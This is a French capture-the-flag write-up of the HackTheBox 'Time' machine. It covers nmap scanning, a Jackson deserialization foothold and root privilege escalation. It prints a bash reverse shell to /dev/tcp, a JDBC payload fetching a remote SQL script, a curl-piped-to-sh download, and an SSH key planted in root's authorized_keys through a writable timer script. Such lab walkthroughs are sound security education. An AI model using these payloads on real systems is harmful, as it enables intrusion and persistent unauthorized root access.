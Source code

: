 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


   ![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Nmap


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a les ports suivants qui sont ouverts :

```sh
80/http
22/ssh
Système d'exploitation Linux.
```

Nous allons jeter un coup d'œil au port ``http/80`` pour voir ce qu'il y'a d'intéressant.


## 0x2 - Enumération web


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, ``"Beatify"`` et ``"Validate! (Beta)"``.


![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)


J'ai intercepté les deux options via ``burpsuite`` et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 


Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/834012057694371850/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de ``stackoverflow``, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">article here</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à ``Jackson Polymorphic Deserialization expected START_ARRAY``.


## 0x3 - Foothold


Maintenant, vous devez créer un fichier ak.sql et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```


Maintenant démarrer un listenner avec netcat :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Et injecter votre payload sur l'option : ``"Validate!(Beta)"``.


```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/ak.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```sh
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```


## 0x3 - Privilege Escalation


Maintenant nous allons upload ``Linpeas`` ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: ``«/usr/bin/timer_backup.sh»``. Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009494190817280/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier ``allowed_keys`` sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- HTB : https://www.hackthebox.eu/home/users/profile/491690


